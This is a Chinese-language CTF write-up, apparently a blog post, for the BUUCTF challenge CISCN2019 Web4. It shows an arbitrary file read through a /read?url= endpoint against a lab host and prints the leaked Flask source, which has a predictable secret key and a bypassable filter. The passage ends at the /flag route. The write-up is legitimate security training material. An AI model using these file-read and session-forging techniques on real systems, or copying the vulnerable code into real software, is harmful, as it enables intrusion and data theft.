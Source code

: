 ```yaml
---
title: "BUUCTF Web Writeup 9"
date: 2022-12-21T16:35:12+08:00
lastmod: 2022-11-21T16:35:12+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


BUUCTF 刷题记录...



## [CISCN2019 华东南赛区]Web4

任意文件读取

```
http://b49584d3-3080-416f-9e7e-f1390082ab6a.node4.buuoj.cn:81/read?url=/proc/self/cmdline
```

读取 cmdline 之后发现源文件在 /app/app.py 下, 然后读取 /usr/local/bin/python 发现环境是 2.7

```python
# encoding:utf-8
import re, random, uuid, urllib
from flask import Flask, session, request

app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
app.debug = True

@app.route('/')
def index():
    session['username'] = 'www-data'
    return 'Hello World! <a href="/read?url=https://baidu.com">Read somethings</a>'

@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('^file.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m or n:
            return 'No Hack'
        res = urllib.urlopen(url)
        return res.read()
    except Exception as ex:
        print str(ex)
    return 'no response'

@app.route('/flag')
```